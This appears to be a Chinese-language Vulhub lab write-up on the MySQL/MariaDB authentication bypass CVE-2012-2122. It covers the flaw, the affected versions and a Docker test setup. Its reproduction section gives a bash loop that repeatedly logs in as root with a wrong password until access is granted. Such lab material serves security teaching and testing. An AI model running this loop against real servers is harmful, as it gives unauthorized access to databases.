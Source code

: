 # Mysql 身份认证绕过漏洞 CVE-2012-2122

## 漏洞描述

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。

参考链接：

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## 漏洞影响

```
MariaDB 5.1.62, 5.2.12, 5.3.6, 5.5.23
MySQL 5.1.63, 5.5.24, 5.6.6
```

## 环境搭建

经过测试，本环境虽然运行在容器内部，但漏洞是否能够复现仍然与宿主机有一定关系。宿主机最好选择Ubuntu或Mac系统，但也不知道是否一定能够成功，欢迎在Issue中提交更多测试结果。

执行如下命令启动测试环境：

```
docker-compose up -d
```

Vulhub环境启动后，将启动一个Mysql服务（版本：5.5.23），监听3306端口，通过正常的Mysql客户端，可以直接登录的，正确root密码是123456。

## 漏洞复现

在不知道我们环境正确密码的情况下，在bash下运行如下命令，在一定数量尝试后便可成功登录：

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

![image-20220226224914186](./images/202202262249365.png)